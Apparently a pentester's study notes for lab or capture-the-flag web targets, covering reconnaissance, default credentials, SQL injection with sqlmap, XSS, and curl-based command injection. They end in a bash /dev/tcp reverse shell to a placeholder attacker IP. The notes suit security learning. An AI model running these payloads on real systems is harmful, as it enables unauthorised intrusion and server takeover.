 # First Steps
## Wappalyzer 
Shows which techologies were used to create the website
- Security
- Cloud
- CMS
- Language

### CMS Systems
#### WordPress (Open-Source)
Websites around blogging 
#### Magento (Open-Source)
Websites around shopping

## Check URL's
Click around the website and see how the folders are organized
> [!NOTE] 
> Check what the home folder is (Ex. index.php). \
> Index.php/folders are common in MVC frameworks like Codeigniter and Laravel
## Copyright 
The copyright at the bottom of the page typically indicates when the website was last updated. If you see an old copyright, the website will typically have old software.
> [!NOTE] 
> The website can be configured to pull the current date for the copyright
## Check for a CMS scanner 
Look for a scanner for the CMS that the website was created with.
- **WordPress**: wpscan
- **Magento**: magescan

## Common Files
- **index.php**: tells you if it is a php website
- **robots.txt**: guide for search engine bots (telling them where not to go)
- **index.html**: default home page

# Next Steps
## Login Page 
### Try Default Creds 
admin:admin
> [!NOTE] 
> Look up default credentials based on the service
### SQL Injection
admin:' or 1=1;--
### SQLMap
1. Capture a login request with Burp and save it as log.req
2. Run SQL injection testing
```bash
sqlmap -r login.req --batch --dbs --level=3 --risk=3
```
> [!NOTE] 
> Cross Site Request Forgery (CSRF) Tokens are unique for each session/request and are validated server-side. This makes it hard for sqlmap to work properly.


> [!Caution]
> Running a high risk factor could negatively impact the server
### Forgot Password
See if you can validate email addresses.
### Sign Up 
Try to sign up for a new account

## Posts
### Cross-Site Scripting 
Attempt to Bold Text
```form
<b>TITLE/USERNAME</b>
```
### Check if there is a User-Agent 
Set up Listener on Attacking Machine
```bash
sudo nc -lvnp 80
```
In Post
```form
http://<ATTACKING_IP>/
```
Take note User-Agent (ex. Curl)
#### Curl
Ex. Request:
```bash
os.popen(curl $Content)
```
1. Check if you can download a file

(On Attacking Machine)
  ```bash
  echo "Test" > test
  ```
(Website: Post)
  ```form
  http://<ATTACKING_IP>/test -o /var/www/html/test
  ```
(Website)
Go to http://IP/test to see if the test file is there

2. Check if you can execute code

Proof of Concept:
  ```form
  http://<ATTACKING_IP>/$(whoami)
  ```
Burp Suite Repeater (Capture Request)

  Test
  ```form
  http://<ATTACKING_IP>/$(echo test)
  ```

  URL Encoding
  ```form
  http://<ATTACKING_IP>/$(echo+test)
  ```

  Bracket Expansion
  ```form
  http://<ATTACKING_IP>/$({echo,test})
  ```

  IFS Variable
  ```form
  http://<ATTACKING_IP>/$(echo$IFS'test')
  ```

3. Execute a Reverse shell
Reverse Shell
```File
bash -c 'bash -i &> /dev/tcp/<ATTACKING_IP>/<PORT> 0>&1'
```
Start Web Server 
```bash
sudo python3 -m http.server 80
```
Download Reverse Shell
```form
http://<ATTACKING_IP>/$(curl$IFS' -o'$IFS'/var/www/html/test'$IFS'http://ATTACKING_IP>/test')
```
Execute Reverse Shell
```form
http://<ATTACKING_IP>/$(bash$IFS'/var/www/html/test')
```
## Searchsploit
Search for CMS exploits with similar version numbers 
> [!NOTE]
> Compare creation_date/vendor_contact to copyright (creation after copyright)



